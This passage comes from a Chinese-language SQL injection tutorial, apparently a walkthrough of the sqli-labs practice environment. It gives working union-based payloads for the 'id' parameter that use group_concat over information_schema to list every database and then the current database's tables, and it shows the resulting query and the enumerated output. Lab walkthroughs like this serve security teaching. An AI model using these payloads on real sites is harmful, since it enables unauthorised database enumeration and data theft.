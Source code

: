 ## 5.使用对应的payload进行注入

### 查询所有的数据库

> group_concat()函数可以让多个数据在一行显示  

`?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+`

```
select * from users where id='-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+' limit 0,1
```

![image-20221223161522119](assets/image-20221223161522119.png)

能看到所有的数据库

```
information_schema
challenges
dvwa_com
performance_schema
security
sql
sys
```

### 查询当前数据库有哪些表

`?id=-1' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+ `

```
select * from users where id='-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+' limit 0,1
```

![image-20221223161835759](assets/image-20221223161835759.png)

```
表名
emails
referers
uagents
users
```
